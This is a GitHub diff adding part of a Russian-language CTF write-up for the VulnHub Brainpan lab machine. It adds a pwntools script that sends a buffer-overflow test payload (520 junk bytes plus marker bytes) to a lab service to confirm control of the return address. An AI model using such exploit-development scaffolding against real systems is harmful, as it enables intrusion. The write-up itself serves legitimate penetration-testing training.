

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: 41-Brainpan/writeup.md, the part around the change printed below. Shown: that part at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/41-Brainpan/writeup.md
+++ b/41-Brainpan/writeup.md
@@ -83,3 +131,68 @@ Ghidra указывает смещение относительно EBP: `EBP-0x
+Далее будет удобнее работать в PyCharm
+```python
+from pwn import *
+
+context.update(arch='i386')
+exe = './brainpan.exe'
+
+host = args.HOST or '192.168.56.124'
+port = int(args.PORT or 9999)
+
+def start_local(argv=[], *a, **kw):
+    '''Execute the target binary locally'''
+    if args.GDB:
+        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
+    elif args.EDB:
+        return process(['edb', '--run', exe] + argv, *a, **kw)
+    else:
+        return process([exe] + argv, *a, **kw)
+
+def start_remote(argv=[], *a, **kw):
+    '''Connect to the process on the remote host'''
+    io = connect(host, port)
+    if args.GDB:
+        gdb.attach(io, gdbscript=gdbscript)
+    return io
+
+def start(argv=[], *a, **kw):
+    '''Start the exploit against the target.'''
+    if args.LOCAL:
+        return start_local(argv, *a, **kw)
+    else:
+        return start_remote(argv, *a, **kw)
+
+#====================PAYLOAD DEFINITION=====================
+junk    = b'A'*520
+param_1 = b'A'*4
+EBP     = b'B'*4
+ret     = b'C'*4
+stack   = b'D'*12
+
+payload = b''.join([
+    junk,
+    param_1,
+    EBP,
+    ret,
+    stack,
+])
+#========================CONNECTION=========================
+io = start()
+print(io.recv().decode('utf-8'))
+
+io.sendline(payload)
+
+print(io.recv().decode('utf-8'))
+io.interactive()
+
+#========================INFORMATION========================
+# RDI, RSI, RDX, RCX, R8, R9, STACK
+#       1    2    3    4   5    6
+```
+
+Если всё правильно рассчитал, то должен получить
+  -- **СССС** в адресе возврата
+  - 3 строки букв **D** в стеке
+
 
 Нужно записать 200*NOP + payload +
 
````
Also changed, not shown: other parts of 41-Brainpan/writeup.md (+54 -6 lines).
